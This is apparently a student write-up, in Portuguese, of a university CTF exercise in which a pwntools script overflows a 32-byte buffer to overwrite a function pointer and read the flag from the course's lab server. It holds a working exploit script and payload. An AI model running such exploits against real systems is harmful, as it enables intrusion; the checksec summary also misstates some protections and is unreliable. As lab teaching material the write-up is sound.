



## CTF WEEK5


**Objetivo encontrar a flag do servidor, através de um buffer overflow attack**

- Primeiro executámos o comando **checksec program**,existe um canário a proteger o return address (Stack), a stack tem permisssão de execução (NX), e as posições do binário não estão randomizadas (PIE), por fim existem regiões de memória com permissões de leitura, escrita e execução (RWX).



- Primeiro vimos que existia uma função readtxt que podia ser um potencial ponto para utilizar o exploit.



- Seguidamente mudámos o exploit para isto:

```python
#!/usr/bin/python3
from pwn import *

# to attack the remote server
r = remote('ctf-fsi.fe.up.pt', 4000)
# to run locally
#r = process('./program')

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08" 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

- E com sucesso chegámos à flag (flag{4dm1n_fun_w45_0wn3d})




- Existe algum ficheiro que é aberto e lido pelo programa?

Sim, o programa abre e lê o ficheiro chamado rules.txt através da função readtxt.

- Existe alguma forma de controlar o ficheiro que é aberto?

Sim, a função readtxt permite que o utilizador controle o nome do ficheiro a ser lido.Se existisse uma vulnerabilidade que permitisse modificar o ponteiro fun, poderia ser possível chamar readtxt com um nome de ficheiro diferente, alterando o conteúdo exibido.

- Existe algum buffer-overflow? Se sim, o que é que podes fazer?

Sim, existe potencial para um buffer overflow na variável buffer, que tem 32 bytes de espaço reservado, mas o scanf lê até 45 caracteres (%45s).A partir destes 13 bytes de diferença pode existir um overflow.